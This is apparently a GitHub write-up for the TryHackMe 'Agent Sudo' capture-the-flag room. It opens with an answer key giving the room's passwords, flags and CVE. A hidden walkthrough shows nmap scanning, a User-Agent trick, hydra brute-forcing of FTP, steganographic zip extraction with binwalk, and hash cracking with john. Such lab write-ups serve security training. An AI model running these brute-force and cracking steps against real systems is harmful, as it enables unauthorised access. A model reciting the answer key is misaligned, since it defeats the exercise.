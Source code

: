 # <div align="center">[Agent Sudo — TryHackMe Flags](https://tryhackme.com/r/room/agentsudoctf)</div>
<div align="center">You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/4af38d66-6dd1-41ae-9086-7f17ffda540b" height="200"></img>
</div>


##  Task 1. Author note
```
No need
```
## Task 2. Enumerate
Enumerate the machine and get all the important information

### How many open ports?
```bash
3
```
### How you redirect yourself to a secret page?
```bash
user-agent
```
### What is the agent name?
```bash
chris
```
## Task 3. Hash cracking and brute-force
Done enumerate the machine? Time to brute your way out.

### FTP password
```bash
crystal
```
### Zip file password
```
alien
```
### steg password
```
Area51
```
### Who is the other agent (in full name)?
```
james
```
### SSH password
```
hackerrules!
```
## Task 4
Capture the user flag

### What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7
```
### What is the incident of the photo called?
```
Roswell alien autopsy
```
## Task 5
Privilege escalation
Enough with the extraordinary stuff? Time to get real.

CVE number for the escalation 

### (Format: CVE-xxxx-xxxx)
```
CVE-2019-14287
```
### What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
```
### (Bonus) Who is Agent R?
```
DesKel
```
<!-- 
<!-- 

## 1. Let start with basic scan 
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ sudo nmap 10.10.14.138 -sV -A -sC -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 11:46 IST
Nmap scan report for 10.10.14.138
Host is up (0.41s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.11 - 3.14 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 4.14 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   289.07 ms 10.17.0.1
2   ... 4
5   431.68 ms 10.10.14.138

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.57 seconds
```
### Three ports are open so Let check for web first 
![Screenshot from 2024-05-07 11-51-15](https://github.com/Esther7171/Agent-Sudo-Walkthrough-/assets/122229257/500c8eba-1fcc-493c-8264-66f6baea6bf2)
## As we see it a clue hide here we need to change user-agent in request we can do it with burpsuit but im using curl to more simplfy it 
### As i try few attempt and random guess i found out the Agent name is ```C``` , Then i change user-agent i got this,

```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -Lv
*   Trying 10.10.14.138:80...
* Connected to 10.10.14.138 (10.10.14.138) port 80
> GET / HTTP/1.1
> Host: 10.10.14.138
> Accept: */*
> User-Agent: C
> 
< HTTP/1.1 302 Found
< Date: Tue, 07 May 2024 06:23:54 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: agent_C_attention.php
< Content-Length: 218
< Content-Type: text/html; charset=UTF-8
< 
* Ignoring the response-body
* Connection #0 to host 10.10.14.138 left intact
* Issue another request to this URL: 'http://10.10.14.138/agent_C_attention.php'
* Found bundle for host: 0x557b30986800 [serially]
* Can not multiplex, even if we wanted to
* Re-using existing connection with host 10.10.14.138
> GET /agent_C_attention.php HTTP/1.1
> Host: 10.10.14.138
> Accept: */*
> User-Agent: C
> 
< HTTP/1.1 200 OK
< Date: Tue, 07 May 2024 06:23:54 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 177
< Content-Type: text/html; charset=UTF-8
< 
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 

* Connection #0 to host 10.10.14.138 left intact
```
## It Look to complicate look at this way I use ```curl``` then the web url and ```-H``` for ````--header```, ```-L``` for ```location``` 

```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -L  
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R 
```
### Here is the msg that telling us That Our agent name is ```Chris``` and our password is weak, Maybe it talking about ftp password 

## 2. Let bruteforce Ftp
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.14.138 -t 40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-07 12:07:50
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ftp://10.10.14.138:21/
[21][ftp] host: 10.10.14.138   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 14 active
```
### ftp password is ```crystal`` user ```chris```

### Let login in ftp 
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ ftp 10.10.14.138 
Connected to 10.10.14.138.
220 (vsFTPd 3.0.3)
Name (10.10.14.138:death): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62879|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> 
```
### Let download all this file in our system use ```get``` to download 
```bash
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||47570|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*************************************************************************************************************************************************************************************************|   217        2.95 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.91 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||61174|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*************************************************************************************************************************************************************************************************| 33143       47.23 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (35.05 KiB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||31562|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*************************************************************************************************************************************************************************************************| 34842       63.62 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (45.99 KiB/s)
ftp> 
```
### We got a text file let read content of it
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
## 3. Let do stegnography
### Ok let check strings of both png and jpg
### basically jpg is empty and there is nothing but there is something inside the cutie.png 
```bash
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ strings cutie.png     
IHDR
PLTE
.(CA
b+FB
8">;&@B&A>9RO =:#<A
;8$@=
.)%>A
:&AA
74-HC
Z5NK
!:@t
"6SB
?/KB
C2OB
CZWn
,Rhc
T9X@>VRMc^
`H_[z
^rmGk>t
<Nq;
Q|?Be>>^>
\!EC
\Y|M
QsK}
vEeHm
PWw5
PLlJ
)[oa
W3D?y
aPAA=
.%sPHz6/|
nVE?e82
*tRNS
IDATx
HI-(./1
	OQv:
b-J$0)
_&*G
s-H$&
	GR6
N#aH.
0v;mu
-M&auuu
<:Dhs
-E8{
=Nx6
/]l2
VZ,B
!/=Oh
0~{+w
Gs$D0
rs*KK"T
V_}$
H=p>D
30Rc
'_yR
lCfYE
oDn^
$oBpc1
A<p:
qJnU
%'Ow
xPg&
ufe=
+Mq2U
Pddd
1C\7
|>&-
i!r)y=
~WJ6
1_;Vh
:xI$
^]]^1
9]#>
Xnuz%z
[@\$-
-?(S
Hqg&
g906
fT*	!
bW[D
|*=\x'
dTWk
9tE!
'=RE|
 '&w!s
 Hv[
S0)g
x1r]
La^n
=XX{
9Dxj
t?Pu
2[Yj
,Pc(d
urx 
cYqiZ<
}p|Ck
+)-7
p*}"
;GL@
\"Rd
iR\_
iRqK
RPDf
|.-.
)?S1	
EO>j
0#xhr
kj^m
'H|@
9C&,
%-eU
8%Z0
F@%;
S3Vb
gG!P
FEm'pcy
XC-+
u{0E\
0b!G
p7h'
Zx;d"F
!N+	{A<
:#33w
x6Zg
]zho
7n[F
]s.#
%fFg
AQD!
b+i#
*yc-
j^7k
2oaOi
G@L4?4
04	'
5I?1'
L+d(
{.rx
Yqqv
	E =
] fT
<KVk
9neB
,Rk{p8
}*@'
cmoGU
SlD/
UDn 
sg/|Yv
A>:9
Ur#4e
NOOO
jD	2
0[mV
#ASv
DHIT}
^ZBl
bttM
lE -
Qx:*p
Qt+9b
6}7v
#d0L
+km"
d$ >
dbhe
JCih
!/I&
0y0G
0d"G
o~:rJ(
&3JX
DJ,A2q<
<^}o
rq=E@.
nWLI5rT):\
;{F_<
" ni
h%xi
OsIt
+lX6~
8eVh
5PKf
AL;Y
*s.,
6Y~^
8}\hZ
DXU7
e@8@
95~N
c*#L|g9
?K*Jmy
mT!jc3
Ielm&1Fl
y(BXG
-.k(
eM!\UA
_	+*\#
n<n^$
;zBF
AUh|@G0ZE
jEEM
3yhL
Wn`1b
JoWc
4f:8
K.ZA
\2l|
XJ1'
1K*K
|$|e=
Z"P6
;ogK
'nj#
r,wa.
GLujU
goux<A
$\>Sb
TOjC
mv.-C
.\Z:2"p
Im9f
SP:b,
to\Wl
^j_@K
].*F8
J9s"
k]}[
qj<ZR
VIJ3
fD"5
v<mG
)Nu26
>/gk
<j:_P
";9#H
8~{U
v|zM3
/2w=O
t\iP
b>$'
7~G;g_
nBi	
fYi2
^:(r
#B_\S1
83Dl
y"F48
{YNJK
]C3i0
z9#c
+g$5<V
&Im6
YDu+
3E)W
D&vA
)$qf6
wuvv
P;8 
:I~H'
-3NH
4]S&cS
r@r&
l6c)
^>'/H
D)@v6*
rAB4
-?EE
rP"N
fMY*
lF"|1>+
pF<TS
a1_{
 i1.
e,Rn
zF#D
2}FyUp
F#;D}
[:/v
*!F-
hw D
TH'D
]Z	A-
UUTa
j%Dc
2)Ck;
UDaB
yaav
Wqww7
	{	1
G!6R%
0,#8
#Q1u]
tI_O
4e%M
zkY|
C+C4
8;cx's
5DxG
T.WiC
\DB|
h5er
%IDUL
8yLe,
ez	qF
V++S
C=,tu
VS.i2
Db@!
,C["R
13clO
SM/;e4
iw<&D
>buX
nB+p&F
|PA<
LBl+!!F
_fc4
:c<"%e
.C|;
e#D)
{t8F
@)nNE
otzz
WyQFd9X
Kc#D
aBl<
l4$Y
ofQif
H@&!t*~
=-B<
og4|
i8NwQ
M*4>
^0!F
Dtqlv
w<Xv
q`j{%1
J@j%
2-,>$
2;20
lb1"
|tLd<
0#6o
&fGg
 i7w
;COU@
?\>x
M$z6<
`wh+P
7xE 1
$DnB
xA__
wPF|
F-NC
r>_M
]NMt
<+<8
@1UkW
a\El
E)`F
ktr*
eDvQ
q|hhh
B')Y
VcTf
!#\~'
I6!8
y|\{
h383e
J*40
o^;r"
l9C'
:G'{
;U>45G9
$tf"
"KeU$
\j|{
#o}G
a'M(>
w?q|'
x}N.
vnW*w
KgVk
z5>vbP
?fi];
@2	<h
^)QuS
d,"t
.>~B4
Nf>?
t@fD
wYc&F
/v`w!L
 7vf
J,g`
R? |
J\NN
@fb|
:dcF
-J	U
 z"N-"z
C0]D
E1]Ey
$kSh
t\( D
i@W[[
_BK41hq
rjL'
lb;vr
l&c/D
IP79
_S+=
<u%+*?`
-?P{GK
+0"c
0{BQ
84<?4
i#:8
 ]@h^
aM`G
<UVp}
zORs
=3SX~
;.W*
tJ?;
qU~a
Tl>i
"B~7
!=#DY
iwf3"~
-pR('
h:t.
\QBL?
L3}Ov
&=%(
01iI
RK:<
(*[!m
{+|D
o;'G
$^ri~!W"
PMT>\s
f1 o
Q	!OkW
$:\x0
?('C[:
$Kr:T
1"+o
6#LPJ
2KU%
! HD
]<o$
5#XZ
%ZmYy
-!o<
1F@)
J9m|>
q"HM
Hl{:
<8@*4
576#
u$RJ
0533
b,jU
DKI|
:cDT
@jp.
R@%H:
w*j+
@Xp.
Oxm	
<c`R
_X(1
AHek
$pSF
-,|va
.A0,"oS I
f'x+
IB`L
55zm\
4V.U
W44fJ"@#
gQ[r
"TN)
t-zq
	%60
*%^(
AfCH
DUp#
WW_nll
\g9R
v:]}
kHu,
7FC:d%lv
]Hu9H
8vz7
7P<O^
.uk 
}mZl
s%_'q
mfOf
#)f]
aqnJ}
&19u
Ein?x
fP"j
i[+*)
1!<31
NB7X
<~;o
6;>!o
XDXT
w*Sp
	([b!
G9qE
(A}j
^MEjOk
L^ay
"P{J
d: ]
ZT%Q
p7a4u
^[=&
IEND
<!-- To_agentR.txt 
<!-- W\_z#
2a>=
<!-- To_agentR.txt        
<!-- 
EwwT
```
### There is hidden file is in zip format inside it there are text files
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ binwalk cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
### Let try to extract it, binwalk ```-e``` it stands for extract  
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ binwalk cutie.png -e 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

```
### Here we got a folder
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ cd _cutie.png.extracted          
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip
```
## 4. Let crack zip file
### Time to use zip2john to extract hash
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ zip2john 8702.zip > hash
```
### Let crack it using John
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)
```
### Hash cracked let see                                                                                                                                                                          
```bash                                                        
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ john hash --show
8702.zip/To_agentR.txt:alien:To_agentR.txt:8702.zip:8702.zip

1 password hash cracked, 0 left
```
### zip password is ```alien```
### Let extract it  -->

